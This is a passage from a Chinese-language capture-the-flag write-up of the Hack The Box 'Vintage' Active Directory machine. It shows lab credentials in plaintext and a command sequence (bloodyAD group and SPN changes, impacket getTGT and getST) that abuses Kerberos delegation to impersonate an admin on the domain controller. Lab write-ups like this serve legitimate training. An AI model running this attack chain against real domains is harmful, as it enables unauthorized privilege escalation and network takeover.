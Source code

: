 得到c.neri\_adm的密码为：Uncr4ck4bl3P4ssW0rd0312

![](./images/image-39.png)

![](./images/image-40.png)

接下来就是将C.NERL\_ADM添加到DELEGATEDADMINS中

```
└─# bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"  
[+] SVC_SQL added to DELEGATEDADMINS

└─#  bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake" 
[+] SVC_SQL's servicePrincipalName has been updated
```

获取这个SVC的票据

```
└─#  impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

└─# export KRB5CCNAME=svc_sql.ccache
```

假冒L.BIANCHI\_ADM用户请求`cifs/dc01.vintage.htb` 服务的服务票据。成功获取该票据后，可以使用它来访问该服务。

```
└─# impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'  

└─# export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```
